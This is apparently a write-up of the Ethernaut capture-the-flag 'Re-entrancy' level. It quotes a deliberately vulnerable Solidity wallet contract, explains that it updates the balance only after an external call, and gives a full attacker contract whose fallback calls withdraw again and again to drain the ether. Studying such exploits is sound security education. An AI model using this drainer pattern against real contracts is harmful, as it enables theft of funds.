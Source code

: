 # Re-entrancy

> The goal of this level is for you to steal all the funds from the contract.

> Things that might help:
> * Untrusted contracts can execute code where you least expect it.
> * Fallback methods
> * Throw/revert bubbling
> * Sometimes the best way to attack a contract is with another contract.
> * See the Help page above, section "Beyond the console"

```solidity
pragma solidity ^0.4.18;

contract Reentrance {

  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] += msg.value;
  }

  function balanceOf(address _who) public constant returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      if(msg.sender.call.value(_amount)()) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  function() payable {}
}
```

I believe this one to be the best level in the game. We are supposed to use reentrancy to steal funds from a simple "wallet" contract.

But what is reentrancy after all?

> In computing, a computer program or subroutine is called reentrant if it can be interrupted in the middle of its execution and then safely be called again ("re-entered") before its previous invocations complete execution.

The only piece of complex logic there is the `withdraw` function, which calls the `msg.sender` contract. This implies we have to write a calling contract to act as our instance's `msg.sender` by calling its `withdraw` method. Since the challenge is supposed to involve reentrancy, we imagine that we have to figure out a way to call `withdraw` again within the same transaction.

The `withdraw` function is going to return to us whatever amount of money we deposit with `donate`. Remember by "we" I mean our contract. This means our contract needs a fallback method, from which we may be able to call `withdraw` again. But why would we call `withdraw` more than once in the same transaction?

Note that our contract's balance in the level contract is only updated *after* the call to it, meaning that, if we have enough funds to be withdrawn at our contract's first `withdraw` call, all subsequent calls to `withdraw` that happen *before* the balance is updated will think we have enough in our contract's balance, allowing us to withdraw funds we don't have from the contract.

The plan for our contract is, then:
1. We do a donate call for X ether;
2. We do a first withdraw call for X ether;
3. The withdraw function calls our fallback sending X ether;
4. Our fallback does a second withdraw call for X ether, where the magic happens;
5. Steps 3 and 4 repeat many times;
6. Eventually we stop calling withdraw in our fallback, the calls end, the transaction succeeds and we've stolen a bunch of ether.

The last step is very important, because we don't want our transaction to be out of gas, which would throw an exception and revert the state changes we've made. We need a counter to limit the recursion.

The final code looks like this:

```solidity
pragma solidity ^0.4.0;

contract Reentrance {
    mapping(address => uint) public balances;

    function donate(address _to) public payable;

    function balanceOf(address _who) public constant returns (uint balance);

    function withdraw(uint _amount) public;

    function() public payable {}
}

contract RSolve {
    Reentrance victim;
    uint public count;

    function RSolve(address ct) public payable {
        // Store our Reentrance instance
        victim = Reentrance(ct);
    }

    function attack(uint v) public {
        // Donate some value X using our address as the _to parameter
        victim.donate.value(v)(this);

        // Withdraw some value X
        victim.withdraw(v);
    }

    function() public payable {
        // Receiver for funds withdrawn by the attack
        if (count < 30) {
            count++;
            // Reentrant withdraw calls
            victim.withdraw(msg.value);
        }
    }
}
```

Now it's time to open Remix and paste our contract there.

We pass the instance address between quotes in the "address" parameter of the constructor and then call `attack`.

Verify the instance's balance with:

```javascript
(await getBalance(instance)).toNumber()
```

When it returns 0, submit the instance.
